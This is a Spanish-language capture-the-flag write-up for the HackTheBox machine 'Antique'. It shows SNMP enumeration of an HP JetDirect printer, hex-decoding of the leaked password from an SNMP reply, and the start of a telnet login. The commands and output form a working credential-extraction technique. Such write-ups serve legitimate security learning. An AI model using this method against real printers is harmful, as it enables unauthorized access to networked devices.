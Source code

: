 Usaré snmpwalk. Busco por el internete algún ejemplo de uso, en este [BLOG](https://blog.invgate.com/es/snmpwalk) encuentro un ejemplo para linux.
```
❯ snmpwalk -v1 -c public 10.10.11.107

Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
Me ha creado un directorio, " a ver si me acuerdo luego de borrarlo..". Lo interesante es lo de Printer. Entre esto y el HP jetdirect parece que la vulnerabilidad se va a encontrar en una impresora.  
Busco por google `hacking printers SNMP`, entre los primeros resultados (el primero o el segundo) está en el siguiente [LINK](http://hacking-printers.net/wiki/index.php/SNMP)

```
❯ snmpget -v1 -c public 10.10.11.107 iso.3.6.1.2.1.25.3.2.1.3.1

iso.3.6.1.2.1.25.3.2.1.3.1 = No Such Instance currently exists at this OID
```
De momento me falla. El OID(Object ID) son los números. Probaré a quitar el "iso".
```
❯ snmpget -v1 -c public 10.10.11.107 .3.6.1.2.1.25.3.2.1.3.1

snmp_build: unknown failure
snmpget: Error building ASN.1 representation (Can't build OID for variable)
```
Algo falla en la representación del OID. Informándome un poco descubro que "iso" corresponde al node name, el node code de "iso" es igual a 1. Así que cambiaré iso por el número 1.
```
❯ snmpget -v1 -c public 10.10.11.107 1.3.6.1.2.1.25.3.2.1.3.1

iso.3.6.1.2.1.25.3.2.1.3.1 = No Such Instance currently exists at this OID
```
Nada tampoco..Pongo todo para que no os creáis que vaya a salir siempre a la primera.

Leyendo, ¡IMPORTANTE!, lee de vez en cuando. En la misma página parece ser que explican que ese OID pertenece a un tipo de dispositivo.

![OID]({{ 'assets/img/writeups/Antique/oid.png' | relative_url }}){: .center-image }

El dispositivo, la impresora, es una HP JetDirect, buscando por internet encuentro su OID;  .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
❯ snmpget -v1 -c public 10.10.11.107  .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
¡Bieeeen!!. Tengo números. Me parece hexadecimal, a ver si estoy en lo cierto;
```
❯ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -ps -r

P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# 
```
Eso parece una contraseña por lo menos hasta la comilla. ¿Contraseña para qué?. Entiendo que de la impresora. Por telnet me piden una, así que meteré esa, con la "q" al final daba fallo, la quito y pruebo:
```
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

```